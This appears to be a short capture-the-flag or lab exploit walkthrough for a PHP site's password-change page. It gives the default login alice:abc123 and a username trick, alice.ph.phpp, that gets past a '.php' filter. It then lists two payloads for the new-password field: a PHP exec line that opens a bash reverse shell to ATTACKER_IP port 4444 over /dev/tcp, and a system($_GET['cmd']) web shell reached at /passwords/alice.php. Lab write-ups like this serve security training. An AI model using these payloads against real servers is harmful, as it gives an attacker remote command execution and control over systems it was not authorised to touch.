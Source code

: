 The user present by default inside the website is (Username:Password):

**alice:abc123**

To exploit the vulnerability use the following payload inside the change.php page:

into Username: **alice.ph.phpp** (.php gets sanitized to empty string thus simply obtaining .php after sanitization)

into Old password: **abc123** (this must match the correct password)

into New password: (RAW: is used to avoid MD5 hashing and other sanitizations)
- **RAW:&lt;?php exec("/bin/bash -c 'exec 5<>/dev/tcp/ATTACKER_IP/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done'");?>**
- **RAW:&lt;?php system($_GET['cmd']);?>**

The first gets a Reverse shell (make sure to edit the ATTACKER_IP), while the seconds allows you to put commands as 'cmd' get argument in each request.

Then access the file you have just created at */passwords/alice.php* .
